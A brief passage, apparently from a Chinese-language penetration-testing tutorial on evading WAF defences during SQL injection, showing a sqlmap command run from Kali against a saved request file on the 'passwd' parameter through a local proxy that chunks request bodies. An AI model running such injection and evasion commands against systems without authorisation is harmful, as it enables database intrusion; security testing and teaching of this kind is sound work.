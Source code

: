 > 交互栏的传输内容任意

在 sqlmap 指定请求文件和代理爆破

```
┌──(root㉿kali-31)-[~]
└─# sqlmap -r reg.txt --technique U -p passwd --batch --proxy=http://192.168.1.16:8080
```

![在 sqlmap 指定请求文件和代理爆破](./../../../../images/SQL%20%E6%B3%A8%E5%85%A5%E5%85%8D%E6%9D%80/%E5%9C%A8%20sqlmap%20%E6%8C%87%E5%AE%9A%E8%AF%B7%E6%B1%82%E6%96%87%E4%BB%B6%E5%92%8C%E4%BB%A3%E7%90%86%E7%88%86%E7%A0%B4.png)

> 可以看到经过扩展的请求体自动进行了分块处理
